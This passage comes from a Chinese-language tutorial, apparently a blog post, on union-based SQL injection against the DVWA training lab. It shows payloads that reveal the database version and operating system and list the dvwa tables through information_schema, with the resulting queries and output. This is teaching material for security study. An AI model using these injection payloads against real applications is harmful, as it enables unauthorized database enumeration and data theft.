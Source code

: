 * version() 获取当前数据库版本.
* @@version_compile_os 获取当前操作系统。

实际执行的 SQL 语句是:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;
```

![](../../../images/2020/08/6230889-9ba5c1a172be5cca.png)

通过上图返回信息，我们又成功获取到：

* 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
* 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。  
`information_schema` 是 mySQL 自带的一张表，这张数据表保存了 MySQL 服务器所有数据库的信息, 如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：  
实际执行的 SQL 语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```

![](../../../images/2020/08/6230889-d00a04753ea91a27.png)

通过上图返回信息，我们再获取到：

* dvwa 数据库有两个数据表，分别是 guestbook 和 users .

